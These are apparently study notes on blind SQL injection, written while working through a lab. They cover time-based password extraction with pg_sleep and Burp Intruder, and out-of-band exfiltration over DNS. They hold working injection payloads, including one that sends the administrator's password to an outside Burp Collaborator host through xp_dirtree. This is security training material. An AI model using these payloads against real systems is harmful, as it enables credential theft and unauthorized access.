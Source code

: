 Determining password value
```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

`Intruder`
```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
```
![[Pasted image 20241105053158.png]]

![[Pasted image 20241105053337.png]]


# Blind SQL using out-of-band OAST technique
- app may carry the same SQL query as priveus by doing it `asynchronously`
	- multi thread to execute SQL query using the tracking cookie

app response doesn't depend on the 
- query returning any data
- db error occurring
- time taken to execute the query

However it is possible to exploit vulnerability by
- triggering out-of-band network interactions
- to a system you control
- many protocols can be used, but the most efficient is DNS

`Burp Collaborator` is the most reliable tool for using out-of-band technique
- server that provides custom implementations of various network services (incl DNS)
- detect network interactions

MsSQL Server query to cause DNS lookup of the specific domain
```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

`Lab`
Confirming OAST
But in lab we have oracle
![[Pasted image 20241105055150.png]]

![[Pasted image 20241105055104.png]]

`Exfiltrating data`
Input reads the password for the Administrator user
Appends a unique domain
Triggers a DNS lookup
```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
